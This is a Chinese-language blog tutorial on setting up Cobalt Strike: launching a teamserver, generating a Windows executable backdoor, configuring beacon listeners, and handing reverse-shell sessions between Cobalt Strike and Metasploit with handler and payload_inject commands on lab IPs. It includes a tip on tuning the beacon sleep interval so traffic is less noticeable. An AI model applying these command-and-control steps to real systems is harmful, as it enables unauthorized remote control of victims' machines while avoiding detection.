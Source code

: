 ```yaml
---
title: "CobaltStrike基本功能与使用"
categories: [ "安全技术","工具分享" ]
tags: [ "webshell","渗透工具","渗透测试","cobaltstrike" ]
draft: false
slug: "483"
date: "2020-02-06 10:55:00"
---
```


## 事情起因

`CobaltStrike`是老牌工具了，我还没写过

## 0x01 简介

> Cobalt Strike 一款以 Metasploit 为基础的 GUI 框架式渗透测试工具，集成了端口转发、服务扫描，自动化溢出，多模式端口监听，exe、powershell 木马生成等。钓鱼攻击包括：站点克隆，目标信息获取，java 执行，浏览器自动攻击等。Cobalt Strike 主要用于团队作战，可谓是团队渗透神器，能让多个攻击者同时连接到团体服务器上，共享攻击资源与目标信息和 sessions。Cobalt Strike 作为一款协同 APT 工具，针对内网的渗透测试和作为 apt 的控制终端功能，使其变成众多 APT 组织的首选。

## 0x02 安装启动

### 安装

> Cobalt Strike 分为客户端和服务端，可分布式操作、协同作战。服务器端只能运行在 Linux 系统中，可搭建在 VPS 上。

我这里使用的`t00ls`论坛的`cobaltstrike_v3.14`版本

服务端关键的文件是`teamserver`以及`cobaltstrike.jar`，将这两个文件放到服务器上同一个目录，然后运行：

```
chmod +x teamserver
./teamserver 192.168.1.2 soapffz
# 服务端真实IP(不能使用0.0.0.0或127.0.0.1)和连接密码
```

![][1]

`cobaltstrike`支持的`java`版本必须在这些之上：

```
OpenJDK 11
Oracle Java 11
Oracle Java 1.8
```

不然就会报错，按照官方推荐的[安装方法][2]安装即可

```
apt-get install openjdk-11-jdk -y
```

### 启动

`Linux`和`Windows`下都可以使用这条命令启动：

```
java -Dfile.encoding=UTF-8 -javaagent:CobaltStrikeCN.jar -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC  -jar cobaltstrike.jar
```

如果没有汉化文件也不会报错，只会提示你没有这个文件

当然，`Windows下也可以直接点击`cobaltstrike.bat`启动：

![][3]

这里的用户名可以随便填，就是你的登录到`cs`之后的用户名:

![][4]

## 0x03 简单上线示范

`cs`的参数太多了，如果是英文版的可以看下面的参考文章自行对比使用

我这里就简单示范一下基本的生成`payload`获得`shell`的过程

点击上面菜单的`Attack`(攻击)，点击`Packages`(生成后门中)的`Windows Executable`

有`S`的版本中的说明说的是无状态的。

![][5]

添加一个监听器：

![][6]

在这个版本中，提供了`9`个监听器：

![][7]

`beacon_xx`系列为`Cobalt Strike`自身，包括`dns`、`http`、`https`、`smb`四种方式的监听器。

`foreign`系列为外部监听器，通常与`MSF`或者`Armitage`联动。

在`Cobalt Strike`3.13 版本后增加了一个新的`Listeners (windows/beacon_tcp/bind_tcp)`，它支持`linuxSSH`会话。

### 创建一个监听器

![][8]

### 上线

上线成功：

![][9]

右键目标进入`beacon`(interact)

![][10]

在`Cobalt Strike`中，默认心跳为`60`s，执行命令的响应很慢，在下载文件时更加明显

所以根据实战环境把时间降低，建议不要太快，否则流量会相对明显，在这里设置`sleep 10`。

![][11]

同时在`beacon`中，如果想对目标进行命令管理，需要在前面加上`shell`，如`shell whoami`、`shell ipconfig`等。

## 0x04 msf 与 cs 联动

### msf 获得 beacon shell

`cs`中自带`socks`功能，可以使用`socks`把`msf`带入目标主机内网进行扫描

我这里是内网环境，就不示范了，我示范下`beacon shell`如何传给`msf`

首先在`msf`使用我们的老朋友开启监听，但要注意的是，`payload`不要设置为`64`位的：

```
msfconsole
handler -H 192.168.1.2 -P 3456 -p windows/meterpreter/reverse_tcp
```

![][12]

然后选择目标主机右键选择派生会话(spawn)，新建一个`Listener`

并选择新建的`msf`的`Listener`

![][13]

然后`msf`就能收到会话，我的`cs`和`msf`运行在同一台机器上也可以

![][14]

### cs 获得 msf 会话

同样的，会话也能从`msf`传到`cs`，在`cs`中创建一个监听者，和上一步类似

这里`host`需要修改为`cs`客户端 IP，创建好之后便监听端口，等待着被控机连接。

![][15]

在`msf`中执行如下操作：

```
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set lhost 192.168.1.10
set lport 5678
set DisablePayloadHandler true
set session 1
run
```

![][16]

把原来的会话删除掉，执行`run`后你就能看到会话又回来了

本文完。

参考文章：

- [CobaltStrike 基本功能与使用][17]
- [CobaltStrike 与 Metasploit 实战联动][18]

[1]: https://img.soapffz.com/archives_img/2020/02/06/archives_20200206_110703.png
[2]: https://www.cobaltstrike.com/help-java-dependency
[3]: https://img.soapffz.com/archives_img/2020/02/06/archives_20200209_130506.png
[4]: https://img.soapffz.com/archives_img/2020/02/06/archives_20200209_130448.png
[5]: https://img.soapffz.com/archives_img/2020/02/06/archives_20200209_132108.png
[6]: https://img.soapffz.com/archives_img/2020/02/06/archives_20200209_132158.png
[7]: https://img.soapffz.com/archives_img/2020/02/06/archives_20200209_131336.png
[8]: https://img.soapffz.com/archives_img/2020/02/06/archives_20200209_132350.png
[9]: https://img.soapffz.com/archives_img/2020/02/06/archives_20200209_132531.png
[10]: https://img.soapffz.com/archives_img/2020/02/06/archives_20200209_132615.png
[11]: https://img.soapffz.com/archives_img/2020/02/06/archives_20200209_133019.png
[12]: https://img.soapffz.com/archives_img/2020/02/06/archives_20200209_133753.png
[13]: https://img.soapffz.com/archives_img/2020/02/06/archives_20200209_134619.png
[14]: https://img.soapffz.com/archives_img/2020/02/06/archives_20200209_135201.png
[15]: https://img.soapffz.com/archives_img/2020/02/06/archives_20200209_135648.png
[16]: https://img.soapffz.com/archives_img/2020/02/06/archives_20200209_140019.png
[17]: https://payloads.cn/2019/1204/cobaltstrike-basic-functions-and-use.html
[18]: https://payloads.cn/2019/1211/cobaltstrike-and-metasploit-combat-linkage.html